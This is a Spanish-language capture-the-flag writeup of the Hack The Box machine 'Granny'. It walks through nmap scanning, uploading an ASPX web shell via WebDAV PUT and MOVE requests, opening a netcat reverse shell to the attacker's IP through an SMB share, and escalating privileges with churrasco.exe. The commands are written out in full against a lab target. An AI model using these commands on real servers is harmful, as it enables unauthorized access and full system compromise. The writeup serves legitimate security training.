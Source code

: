 ```yaml
---
title: Granny - HTB Writeup
date: 2023-09-10 19:00:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Windows, Writeup]
image:
  path: /assets/img/post/granny/vishnu-mohanan-pfR18JNEMv8-unsplash.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


Granny es una máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

En esta máquina explotaremos una vulnerabilidad de ```Webdav``` que nos permitirá llevar a cabo un ```RFI```

## **Reconocimiento**

Utilizaremos la herramienta ```nmap``` para listar los puertos abiertos en la máquina víctima:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.15 -oG allPorts
```

![img](/assets/img/post/granny/fc0e3620-808f-47be-b1f9-d096392af0ab.png)

Vemos que esta el puerto ```80``` abierto.

Vamos a realizar un escaneo de **servicios** y **versiones** corriendo por este puerto:

```bash
nmap -sCV -p80 10.10.10.15 -oN versions
```

![img](/assets/img/post/granny/772fc76a-3774-4bd5-baf7-7bbd0b259c64.png)

Gracias al conjunto de scripts básicos de reconocimiento que aplica el escaneo, podemos ver los tipos de peticiones que se pueden realizar en el servidor, además de que en el puerto ```80``` se ha detectado un ```Webdav``` además de un ```IIS```

Si entramos en la web no vamos a ver nada relevante, ni que podamos usar:

![img](/assets/img/post/granny/76a-3774-4bd5-baf7-7bbd0b259c64.png)

## **Explotación**

Vamos a aprovechar una vulnerabilidad de ```Webdav``` que nos permite mediante ```curl``` subir archivos a la máquina víctima

Para ello vamos a intentar subir una **web shell** ```(cmdasp.aspx)```

Primero copiaremos la **web shell** en la ruta actual

```bash
cp /usr/share/webshells/aspx/cmdasp.aspx ..
```

Posteriormente subiremos la **web shell** a la máquina víctima con curl:

```bash
curl -s -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
```

> Subiremos el archivo en formato ```.txt``` ya que no podremos en formato ```.aspx```

Una vez el archivo ya subido aprovecharemos el metodo ```MOVE``` para cambiar la extensión de la **web shell** y poder ejecutarla:

```bash
curl -s -X MOVE -H "Destination:http://10.10.10.15/cmdasp.aspx" http://10.10.10.15/cmdasp.txt 
```

> Utilizaremos la cabecera ```Destination``` para modificar el archivo

Ahora si accedemos al archivo tendremos una shell en la que podremos ejecutar comandos:

![img](/assets/img/post/granny/c5fbbfb9-1184-44aa-b98e-2b6d3ab861b2.png)

Para conseguir una **reverse shell** nos copiaremos al archivo actual el ```nc.exe```

```bash
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe . 
```

Utilizaremos ```impacket-smbserver``` para establecer una conexión por ```smb``` y así poder compartir el archivo ```nc.exe``` con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

Por otra parte en la web shell ejecutaremos el siguiente comando para compartirnos una shell mediante ```nc.exe```

```bash
\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443
```

A su vez en nuestra máquina nos pondremos en escucha por el puerto ```443```

```bash
rlwrap nc -nlvp 443
```

Y como vemos habremos conseguido acceso a la máquina:

![img](/assets/img/post/granny/20a75187-f421-4a7c-a021-284397c4291d.png)

Pero no tendremos acceso a los usuarios de la máquina por lo que no podremos ver las flags

## **Escalada de Privilegios**

Para listar los permisos del usuario ejecutaremos:

```bash
whoami /priv
```

![img](/assets/img/post/granny/92b4235d-30a4-4130-86c5-e1e67f582553.png)

El permiso que nos interesa es ```SeImpersonatePrivilege```

Si buscamos sobre la escalada de privilegios explotando este permiso nos llevará a https://github.com/Re4son/Churrasco/raw/master/churrasco.exe y descargaremos el ejecutable ```churrasco.exe``` *(xd)*

Utilizando el ```impacket-smbserver``` compartiremos el ejecutable con la máquina víctima

```bash
impacket-smbserver smbFolder $(pwd)
```

En la máquina víctima nos moveremos a ```C:\WINDOWS\temp``` y en esta ruta usaremos el comando: 

```bash
copy \\10.10.14.5\smbFolder\churrasco.exe churrasco.exe
```

Y una vez copiado ejecutaremos ```churrasco.exe```

```bash
churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
```
Por lo tanto al ver el uso del comando intentaremos conseguir una shell como ```root```, así que deberemos usar ```nc.exe```:

```bash
churrasco.exe "\\10.10.14.5\smbFolder\nc.exe -e cmd 10.10.14.5 443"
```

Y de nuevo nos pondremos en escucha con ```nc``` por el puerto ```443```:

![img](/assets/img/post/granny/02314c0d-6e4f-4428-b151-05c1cb14f8dd.png)

Y ya tendremos acceso a la máquina como usuario privilegiado

Podremos ver **ambas flag** en el ``Desktop`` del ``usuario`` y del ``administrator``

Espero que os haya gustado y servido, cualquier comentario es de muchas ayuda. Adios!
